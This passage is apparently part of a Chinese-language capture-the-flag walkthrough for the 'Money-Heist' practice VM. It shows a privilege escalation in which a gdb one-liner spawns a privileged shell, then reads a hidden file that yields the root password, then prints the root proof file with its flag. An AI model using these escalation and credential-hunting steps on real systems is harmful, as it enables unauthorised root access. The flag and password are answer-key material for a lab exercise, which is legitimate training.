 看到 /usr/bin/gdb 的所属用户是 tokyo，可以进行利用升级到 tokey 用户：

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

$ id
uid=1004(nairobi) gid=1004(nairobi) euid=1000(tokyo) groups=1004(nairobi)
```

继续在/home/tokyo 目录枚举：

```
$ cat .sudo_as_admin_successful
Romeo Oscar Oscar Tango Stop Papa Alfa Sierra Sierra Whiskey Oscar Romeo Delta : India November Delta India Alfa One Nine Four Seven
$ cat .bash_history
su root
```

第一个提示好像是一个密码：india1947

尝试 su root，输入 india1947 成功切换到 root 用户：

```
root@Money-Heist:/home/tokyo# cd /root
root@Money-Heist:~# ls -al
total 24
drwx------  3 root root 4096 Nov 19  2020 .
drwxr-xr-x 23 root root 4096 Oct  5  2020 ..
-rw-r--r--  1 root root 3121 Nov 19  2020 .bashrc
drwxr-xr-x  2 root root 4096 Oct  6  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 3351 Nov 19  2020 proof.txt
root@Money-Heist:~# cat proof.txt


₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹
₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹

				 ███████████           ████  ████                         ███
				░░███░░░░░███         ░░███ ░░███                        ░░░
				 ░███    ░███  ██████  ░███  ░███   ██████       ██████  ████   ██████    ██████
				 ░██████████  ███░░███ ░███  ░███  ░░░░░███     ███░░███░░███  ░░░░░███  ███░░███
				 ░███░░░░░███░███████  ░███  ░███   ███████    ░███ ░░░  ░███   ███████ ░███ ░███
				 ░███    ░███░███░░░   ░███  ░███  ███░░███    ░███  ███ ░███  ███░░███ ░███ ░███
				 ███████████ ░░██████  █████ █████░░████████   ░░██████  █████░░████████░░██████
				░░░░░░░░░░░   ░░░░░░  ░░░░░ ░░░░░  ░░░░░░░░     ░░░░░░  ░░░░░  ░░░░░░░░  ░░░░░░



							FLAG:- 659785w245e856aq59d413956

			Great work, you helped us to caught them! But still we did not get professor. Come with us in our next operation.
								G00D LUCK!!



I'll be glad if you share screenshot of this on twitter,linkdin or discord.

Twitter --> (@_Anant_chauhan)
Discord --> (infinity_#9175)
Linkedin --> (https://www.linkedin.com/in/anant-chauhan-a07b2419b)

```